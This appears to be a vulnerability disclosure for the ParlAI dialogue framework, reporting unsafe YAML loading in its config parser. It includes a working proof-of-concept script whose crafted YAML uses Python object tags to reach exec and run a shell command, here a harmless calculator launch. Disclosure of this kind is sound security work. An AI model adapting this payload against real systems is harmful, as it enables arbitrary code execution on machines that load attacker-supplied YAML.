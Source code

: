 # Description
ParlAI (pronounced “par-lay”) is a python framework for sharing, training and testing dialogue models, from open-domain chitchat to VQA (Visual Question Answering).
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```
import os
#os.system('pip3 install parlai')
from parlai.chat_service.utils import config
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(exploit)
config.parse_configuration_file('config.yml')
```
* `pip3 install parlai`
* `python3 exploit.py`
